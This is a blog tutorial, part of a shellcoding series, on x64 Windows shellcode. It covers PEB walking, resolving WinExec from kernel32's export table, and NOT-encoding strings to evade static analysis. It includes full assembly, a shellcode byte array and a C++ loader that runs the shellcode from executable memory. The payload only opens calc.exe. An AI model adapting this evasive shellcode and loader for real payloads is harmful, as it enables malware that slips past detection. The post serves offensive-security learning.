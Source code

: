 ```yaml
---
title:  "x64 Assembly & Shellcoding 101 - Part 4"
header:
  teaser: "/assets/images/asm-part4.png"
categories:
  - Shellcoding
  - Assembly
  - Debugging
tags:
  - Shellcoding
  - x64
  - x64dbg
  - '2024'
  - nasm
  - assembly
  - debugging
---
```


Hey all!  This will be a shorter post today, so I'll get right to it.  Let's talk shellcode basic encoding functionality built in to x64 assembly instructions.  What we're really talking about here is bitwise operations.  I'm going to use the `NOT` bitwise command to 'encode' all strings within our assembly code. This way, it's harder for static analysis efforts to succeed when searching for strings 😸 I took the liberty of trimming up the code we've been using to execute calc.exe using WinExec.  I'll likely go back and retroactively clean up some code in the previous posts in this series at some point too.  

Here's the portion of code with the `NOT` instruction added after the string.  I have already performed a NOT against the original unencoded string so these `NOT` instructions are to perform decoding operations.
```nasm
mov rax, 0x6F9C9A87BA9196A8   ; WinExec 'encoded'
not rax

mov rax, 0x9A879AD19C939E9C    ; encoded calc.exe ;)
not rax
```
**and the full code below:**
```nasm
;nasm -fwin64 [x64findkernel32.asm]
;ld -m i386pep -o x64findkernel32.exe x64findkernel32.obj
BITS 64
SECTION .text
global main
main:
sub rsp, 0x28
and rsp, 0xFFFFFFFFFFFFFFF0
xor rcx, rcx             ; RCX = 0
mov rax, [gs:rcx + 0x60] ; RAX = PEB
mov rax, [rax + 0x18]    ; RAX = PEB->Ldr
mov rsi,[rax+0x10]       ;PEB.Ldr->InMemOrderModuleList
mov rsi, [rsi]
mov rsi,[rsi]
mov rbx, [rsi+0x30]      ;kernel32.dll base address
mov r8, rbx              ; mov kernel32.dll base addr into r8
;Code for parsing Export Address Table
mov ebx, [rbx+0x3C]           ; Get Kernel32 PE Signature (offset 0x3C) into EBX
add rbx, r8                   ; Add signature offset to kernel32 base. Store in RBX.
xor rcx, rcx                  ; Avoid null bytes from mov edx,[rbx+0x88] by using rcx register to add
add cx, 0x88ff
shr rcx, 0x8                  ; RCX = 0x88ff --> 0x88
mov edx, [rbx+rcx]            ; EDX = [&NewEXEHeader + Offset RVA ExportTable] = RVA ExportTable
add rdx, r8                   ; RDX = kernel32.dll + RVA ExportTable = ExportTable Address
mov r10d, [rdx+0x14]          ; Number of functions
xor r11, r11                  ; Zero R11 before use
mov r11d, [rdx+0x20]          ; AddressOfNames RVA
add r11, r8                   ; AddressOfNames VMA
mov rcx, r10                  ; Set loop counter
mov rax, 0x6F9C9A87BA9196A8   ; WinExec 'encoded'
not rax
shl rax, 0x8
shr rax, 0x8
push rax
mov rax, rsp	
add rsp, 0x8
kernel32findfunction:             ; Loop over Export Address Table to find WinApi names
    jecxz FunctionNameNotFound    ; Loop around this function until we find WinExec
    xor ebx,ebx                   ; Zero EBX for use
    mov ebx, [r11+rcx*4]          ; EBX = RVA for first AddressOfName
    add rbx, r8                   ; RBX = Function name VMA / add kernel32 base address to RVA and get WinApi name
    dec rcx                       ; Decrement our loop by one, this goes from Z to A
    mov r9, qword [rax]                ; R9 = "our API"
    cmp [rbx], r9                      ; Compare all bytes
    jz FunctionNameFound               ; If match, function found
	jnz kernel32findfunction
FunctionNameNotFound:
int3
FunctionNameFound:                ; Get function address from AddressOfFunctions
   inc ecx                        ; increase counter by 1 to account for decrement in loop
   xor r11, r11
   mov r11d, [rdx+0x1c]           ; AddressOfFunctions RVA
   add r11, r8                    ; AddressOfFunctions VMA in R11. Kernel32+RVA for addressoffunctions
   mov r15d, [r11+rcx*4]          ; Get the function RVA.
   add r15, r8                    ; Found the Winexec WinApi and all the while skipping ordinal lookup! w00t!
   xor rax, rax
   push rax
   mov rax, 0x9A879AD19C939E9C    ; encoded calc.exe ;)
   not rax
   push rax
   mov rcx, rsp	                 
   xor rdx, rdx
   inc rdx
   sub rsp, 0x30
   call r15                       ; Call WinExec
```

**Here's a lame trick you can use if you want to decode / encode using `NOT` without having to use assembly.  Use the calculator!  Yes, we're going to use the calculator. I can't seem to get enough of it, it seems. 😸**

![image](https://github.com/user-attachments/assets/0c1103af-9a3d-44d6-99bb-32ec86422c1b)

**This gives us the original, unencoded string:**

![image](https://github.com/user-attachments/assets/8c6c934c-198e-4e88-805b-704b9e78ba96)

**This is nice because you can quickly decode and encode your strings to make sure everything is in working order before committing to your code.  As always, we want to strip this down to just shellcode, make sure it has no NULLs, and execute it!  We'll start with the basic objdump output to work off of:**

```nasm
winexec_nonulls.o:     file format pe-x86-64


Disassembly of section .text:

0000000000000000 <main>:
   0:	48 83 ec 28          	sub    $0x28,%rsp
   4:	48 83 e4 f0          	and    $0xfffffffffffffff0,%rsp
   8:	48 31 c9             	xor    %rcx,%rcx
   b:	65 48 8b 41 60       	mov    %gs:0x60(%rcx),%rax
  10:	48 8b 40 18          	mov    0x18(%rax),%rax
  14:	48 8b 70 10          	mov    0x10(%rax),%rsi
  18:	48 8b 36             	mov    (%rsi),%rsi
  1b:	48 8b 36             	mov    (%rsi),%rsi
  1e:	48 8b 5e 30          	mov    0x30(%rsi),%rbx
  22:	49 89 d8             	mov    %rbx,%r8
  25:	8b 5b 3c             	mov    0x3c(%rbx),%ebx
  28:	4c 01 c3             	add    %r8,%rbx
  2b:	48 31 c9             	xor    %rcx,%rcx
  2e:	66 81 c1 ff 88       	add    $0x88ff,%cx
  33:	48 c1 e9 08          	shr    $0x8,%rcx
  37:	8b 14 0b             	mov    (%rbx,%rcx,1),%edx
  3a:	4c 01 c2             	add    %r8,%rdx
  3d:	44 8b 52 14          	mov    0x14(%rdx),%r10d
  41:	4d 31 db             	xor    %r11,%r11
  44:	44 8b 5a 20          	mov    0x20(%rdx),%r11d
  48:	4d 01 c3             	add    %r8,%r11
  4b:	4c 89 d1             	mov    %r10,%rcx
  4e:	48 b8 a8 96 91 ba 87 	movabs $0x6f9c9a87ba9196a8,%rax
  55:	9a 9c 6f 
  58:	48 f7 d0             	not    %rax
  5b:	48 c1 e0 08          	shl    $0x8,%rax
  5f:	48 c1 e8 08          	shr    $0x8,%rax
  63:	50                   	push   %rax
  64:	48 89 e0             	mov    %rsp,%rax
  67:	48 83 c4 08          	add    $0x8,%rsp

000000000000006b <kernel32findfunction>:
  6b:	67 e3 16             	jecxz  84 <FunctionNameNotFound>
  6e:	31 db                	xor    %ebx,%ebx
  70:	41 8b 1c 8b          	mov    (%r11,%rcx,4),%ebx
  74:	4c 01 c3             	add    %r8,%rbx
  77:	48 ff c9             	dec    %rcx
  7a:	4c 8b 08             	mov    (%rax),%r9
  7d:	4c 39 0b             	cmp    %r9,(%rbx)
  80:	74 03                	je     85 <FunctionNameFound>
  82:	75 e7                	jne    6b <kernel32findfunction>

0000000000000084 <FunctionNameNotFound>:
  84:	cc                   	int3

0000000000000085 <FunctionNameFound>:
  85:	ff c1                	inc    %ecx
  87:	4d 31 db             	xor    %r11,%r11
  8a:	44 8b 5a 1c          	mov    0x1c(%rdx),%r11d
  8e:	4d 01 c3             	add    %r8,%r11
  91:	45 8b 3c 8b          	mov    (%r11,%rcx,4),%r15d
  95:	4d 01 c7             	add    %r8,%r15
  98:	48 31 c0             	xor    %rax,%rax
  9b:	50                   	push   %rax
  9c:	48 b8 9c 9e 93 9c d1 	movabs $0x9a879ad19c939e9c,%rax
  a3:	9a 87 9a 
  a6:	48 f7 d0             	not    %rax
  a9:	50                   	push   %rax
  aa:	48 89 e1             	mov    %rsp,%rcx
  ad:	48 31 d2             	xor    %rdx,%rdx
  b0:	48 ff c2             	inc    %rdx
  b3:	48 83 ec 30          	sub    $0x30,%rsp
  b7:	41 ff d7             	call   *%r15
```

**Let's get only the shellcode:**

**for i in $(objdump -D popcalc.o | grep "^ " | cut -f2); do echo -n "\x$i" ; done**

**Now, pop it into your c++ program and let er rip!**

```c++
#include <windows.h>
#include <iostream>

unsigned char shellcode[] =
"\x48\x83\xec\x28\x48\x83\xe4\xf0\x48\x31\xc9\x65\x48\x8b\x41"
"\x60\x48\x8b\x40\x18\x48\x8b\x70\x10\x48\x8b\x36\x48\x8b\x36"
"\x48\x8b\x5e\x30\x49\x89\xd8\x8b\x5b\x3c\x4c\x01\xc3\x48\x31"
"\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01"
"\xc2\x44\x8b\x52\x14\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3"
"\x4c\x89\xd1\x48\xb8\xa8\x96\x91\xba\x87\x9a\x9c\x6f\x48\xf7"
"\xd0\x48\xc1\xe0\x08\x48\xc1\xe8\x08\x50\x48\x89\xe0\x48\x83"
"\xc4\x08\x67\xe3\x16\x31\xdb\x41\x8b\x1c\x8b\x4c\x01\xc3\x48"
"\xff\xc9\x4c\x8b\x08\x4c\x39\x0b\x74\x03\x75\xe7\xcc\xff\xc1"
"\x4d\x31\xdb\x44\x8b\x5a\x1c\x4d\x01\xc3\x45\x8b\x3c\x8b\x4d"
"\x01\xc7\x48\x31\xc0\x50\x48\xb8\x9c\x9e\x93\x9c\xd1\x9a\x87"
"\x9a\x48\xf7\xd0\x50\x48\x89\xe1\x48\x31\xd2\x48\xff\xc2\x48"
"\x83\xec\x30\x41\xff\xd7";


int main() {

    void* exec_mem = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    if (exec_mem == nullptr) {
        std::cerr << "Memory allocation failed\n";
        return -1;
    }
    memcpy(exec_mem, shellcode, sizeof(shellcode));
    auto shellcode_func = reinterpret_cast<void(*)()>(exec_mem);
    shellcode_func();
    VirtualFree(exec_mem, 0, MEM_RELEASE);
    return 0;
}
```
**Forgot to mention, if you compile the exe and search for strings, you won't find winexec or calc, well...you'll see winexec_nonull since that's the filename, but not `WinExec` and `calc.exe`.  In a real world setting I'd change that. 😄  Check it out:**

![image](https://github.com/user-attachments/assets/8fcc5f09-2fd0-4905-9d31-e49b87f8b727)

And that's a wrap folks!  Maybe eventually I'll get around to moving beyond WinExec and onto other apis lol.  It'll happen...but until then take it easy!
